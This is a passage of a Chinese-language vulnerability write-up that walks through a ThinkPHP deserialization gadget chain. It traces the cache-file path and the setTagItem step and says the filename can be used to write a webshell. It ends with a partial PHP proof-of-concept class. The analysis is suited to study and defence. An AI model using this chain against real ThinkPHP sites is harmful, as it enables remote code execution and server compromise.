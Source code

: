 ```php
```

此处$filename可控，跟进getCacheKey


```php
protected function getCacheKey($name, $auto = false)
{
    $name = md5($name);
    if ($this->options['cache_subdir']) {
        // 使用子目录
        $name = substr($name, 0, 2) . DS . substr($name, 2);
    }
    if ($this->options['prefix']) {
        $name = $this->options['prefix'] . DS . $name;
    }
    $filename = $this->options['path'] . $name . '.php';
    $dir      = dirname($filename);

    if ($auto && !is_dir($dir)) {
        mkdir($dir, 0755, true);
    }
    return $filename;
}
```

回来继续看$data，从传入的$value获取，但是在之前writeln处已经传入了true，而且不可控，只能继续往下看，可以看到当成功写入文件时，会调用setTagItem方法，跟进


```php
protected function setTagItem($name)
{
    if ($this->tag) {
        $key       = 'tag_' . md5($this->tag);
        $this->tag = null;
        if ($this->has($key)) {
            $value   = explode(',', $this->get($key));
            $value[] = $name;
            $value   = implode(',', array_unique($value));
        } else {
            $value = $name;
        }
        $this->set($key, $value, 0);
    }
}
```

又调用了一次set，且此处两个参数都是可控的，所以可以在文件名处搞事情，通过编码然后将文件名写入shell中

**poc**


```php
<?php
namespace think\process\pipes;
use think\model\Pivot;
class Pipes{

}

class Windows extends Pipes{
    private $files = [];

    function __construct(){
        $this->files = [new Pivot()];
    }
}

```